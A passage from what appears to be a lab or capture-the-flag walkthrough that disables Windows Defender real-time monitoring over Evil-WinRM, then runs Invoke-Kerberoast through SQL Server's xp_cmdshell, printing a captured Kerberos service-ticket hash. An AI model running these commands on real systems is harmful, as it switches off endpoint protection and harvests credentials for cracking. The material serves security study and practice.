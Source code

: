 ```bash

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 172.20.128.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :

```

## Kerberoasting

Next, I decided to perform some kerberoasting in order to get some tickets we could use to get access to another user but first, I had to disable realtime monitoring as shown below.

```bash
*Evil-WinRM* PS C:\users> set-mppreference -disablerealtimemonitoring $true

```

After uploading our powershell script onto the host machine, we shall run it from the sql server as shown below.

```bash
SQL (df  dbo@master)> xp_cmdshell powershell -c import-module C:\Temp\invoke-kerberoast.ps1; invoke-kerberoast 
output                                                                             
--------------------------------------------------------------------------------   
NULL                                                                               

NULL                                                                               

TicketByteHexStream  :                                                             

Hash                 : $krb5tgs$HR_peoplesoft/intranet.poo:1433:A175CE2658B987C0FE5CE7CE9380303E$C82FEE2FB0F43648D7C3BD   
                       10BE84A19E8953E7EE295D224E38F89B6B8EEDBFCF177F1E1DD8BC4CEA78B59059FC365DB3DF096BD8E7FA584BABE6DA   
                       E33C2F3EF1654958DECBF025C651B2CB4016071CE78D505DEE1A9893C1D64215D663324B15F01FEA7CCFB9D3979391E4   
                       D05FDEA0E70575BC8A48FBC1885D9097416F778B07F696203AA818125C0FD2223F721056AE444C1AA10AE3151BAE1757   
                       3A276625C78B2A46DC5F24054541CBD4A7E6FA67082D885F212C2CB132432AD5BD64BDD5063F0AFAC505703703B20B3E   
                       E1E369BDC8281F679B07949474B7C22C498E77ADBB54D9362FBE00AA8678AE180C4713973A08B94DA1A3808EE70B68C6   
                       0D75DC5348DF0BD321FAD17FDA36D7BA4AFD197365958CDE3CEF076EDC90863B1F27CB038D64FEFEE179654C93545A14   
                       AB02CE6E821022D1EFDE08FA58B95D6726724DB02519224E34AAF7C20C165858A28D0EBB4EC1634272CD74610ABDCD11   
                       8898C407FEA9B9B82C539C4FD6465B09C8188A340FE8668E987D4E009D4D8672FD68AD828D3A2F011700B7FEE42C9934   
                       0995A3D6C29442B83ACD453611955E600ACBCEDA6E9FAB078C53954DCC801AD17656CFDDCF0FC7A656FBF67FDE9516CD   
                       3D3E255262841D6C25C52C81472ECE2C16F98CD957996D2C3CA5604F918C58F8EA2D1163D51AF36E9C3DF496442D604B   
                       D31A7D8E3CE1093C47009ADF930A9CF736249D42EE289FBFB9636CD129E8D992C3FFE651CC94046FD1593AD1CD9236F2   
                       DD29E22EE389E56FF702783CA9EE4E7A5BAEC5F647F1EB34E26D98AF57E1C3F84DC83B4C851F5F867FB89CEFCB717679   
                       2AA840F594D946006F5F8C86EB5EB3F1AD50469A769817930A7F4027DFE852B6F235EEC086F88DB38DCF68F889D62388   
                       6683C43C6F52123B6337C16FCF8A23162E21C74A335D5C143292F801DAA42C9469A73F63C245E18A6BCCF779AD82BCA9  
                       EC5D4DC80271D6A8C8494906C55F66AB39DA96AC5C21F271C950940D809CE97E238C4F33486D0B566666F66BD8316602   
```
